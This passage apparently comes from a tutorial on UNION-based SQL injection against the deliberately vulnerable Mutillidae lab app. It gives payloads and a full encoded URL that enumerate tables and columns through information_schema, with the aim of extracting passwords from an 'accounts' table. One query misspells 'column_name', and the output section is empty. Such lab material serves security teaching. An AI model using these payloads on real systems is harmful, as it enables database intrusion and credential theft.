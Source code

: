 ![alt text](img/22.png)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27%20union%20select%201,table_name,3,4,5%20from%20information_schema.tables%20where%20table_schema=database()%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :
